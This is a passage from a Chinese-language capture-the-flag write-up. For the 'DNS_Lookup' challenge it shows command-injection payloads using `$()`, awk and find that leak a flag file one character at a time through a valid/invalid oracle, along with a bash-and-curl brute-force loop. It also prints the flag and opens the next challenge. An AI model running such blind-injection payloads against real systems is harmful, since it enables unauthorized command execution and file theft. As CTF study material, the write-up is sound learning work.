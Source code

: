 2. 從課程 lab 可以知道就是要用 `$()` 來達成目標，且一開始先要找到可控制自如的使其 valid 或 invalid，`$(echo google.com)` 測試起來確定可行。

3. 再來想到的就是 awk，畢竟需要一點 if else 的功能，所以使用 substr($0,1,1) 來判斷第一個字元是否是某值，原本還因為不能 else (;) 而卡了一下，結果可以不用 `host` return value 會是 1。然後目前為止其實還不能確定是否 work，因為找不到可以用的檔案來測試，且 /flag 檔名猜不到，找了 /proc/1/cmdline 猜 '/'，但結果怪怪的，一度以為方法出問題，後找到 /etc/hosts 原本用 '#' 結果因為多行符合印出多個 google.com 而有問題，剛好運氣好，測到 ':' 確定方法可用。
    ```bash
    awk '{ if (substr($0,1,1) == "A") print "google.com" }' /flag
    awk '{ if (substr($0,1,1) == ":") print "google.com" }' /etc/hosts)
    ```

4. 再來就是亂猜檔名，然後中途發現可以 `$(echo $(echo google.com))`，就設法 `ls /`， 均無功而返，再來猜一下根目錄只有一個檔案，問一下 chatgpt，就得到可以 `$(find / -maxdepth 1 -type f)`，就讀到 flag 的檔案了。

5. 接著就是每個位置搜一遍，其實還滿快就搜完了。
    ```bash
    echo '' > ./tmp
    for ((i=32; i<=126; i++)); do
        c=$(printf "%c" "$(printf "\\$(printf %o "$i")")")
        echo $c
        input='$(awk %27{ if (substr($0,33,1) == "'$c'") print "google.com" }%27 $(find / -maxdepth 1 -type f))'
        echo $input
        curl -X POST -d "name=$input" $website >> ./tmp
    done
    cat ./tmp | grep 'is valid'  
    ```

**取得 flag 的畫面：**
![Alt text](image/DNS_flag.png)

### Internal

- Flag：`AIS3{jUST_s0me_fuNNy_n9InX_FEature}`

#### 解題流程與思路
**解題過程：**
1. 解完 DNS_Lookup，然後再回去找一直沒喵到的 welcome 時，喵到..，看來這題可開。
    ![Alt text](image/internal_dc.png)
